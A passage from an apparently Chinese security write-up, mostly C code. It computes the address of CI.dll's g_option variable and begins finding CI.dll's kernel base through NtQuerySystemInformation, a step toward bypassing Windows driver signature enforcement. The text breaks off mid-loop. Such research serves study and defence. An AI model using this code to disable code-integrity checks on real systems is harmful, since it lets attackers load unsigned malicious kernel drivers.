 ```bash
ULONG gOption_Value = (*(DWORD*)(CipInitialize + 0x1c)); //获取偏移
    ULONG64 gOption_NextLine = CipInitialize + 0x1c + 5; ////获取下一行
    DWORD64 g_op = (gOption_NextLine & ~(ULONGLONG)0xFFFFFFFF) + ((gOption_NextLine + gOption_Value) & (ULONGLONG)0xFFFFFFFF);
    printf("g_op = %p \r\n",g_op);
```

[![](assets/1699005703-281a3ba067f19a5e4af066c2b207132e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103150934-f0fe45ee-7a17-1.png)

这样就能获取到 R3 下的 g\_option 的地址，但这并不是一个可用的地址。还需要计算出 R0 中的地址，首先获取 R0 中的 CI 模块地址：

```bash
DWORD64 GetCiBaseAdress() {

    HMODULE hModule =  LoadLibraryA("ntdll.dll");
    Fun_NtQuerySystemInformation NtQuerySystemInformation = (Fun_NtQuerySystemInformation)GetProcAddress(hModule, "NtQuerySystemInformation");

    DWORD bufferSize = 0x1024;
    PVOID buffer = malloc(0x1024);
    NTSTATUS ntStatus = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11,buffer, bufferSize,&bufferSize);

    if (ntStatus == 0xC0000004L) {
        free(buffer);
        buffer = malloc((SIZE_T)bufferSize);

        ntStatus = NtQuerySystemInformation(
            (SYSTEM_INFORMATION_CLASS)11,
            buffer,
            bufferSize,
            &bufferSize);
    }

    PRTL_PROCESS_MODULES pvModules = (PRTL_PROCESS_MODULES)buffer;

    for (size_t i = 0; i < pvModules->NumberOfModules; i++)
    {
        if (strstr( (char*)pvModules->Modules[i].FullPathName,"CI.dll") != NULL)
        {
```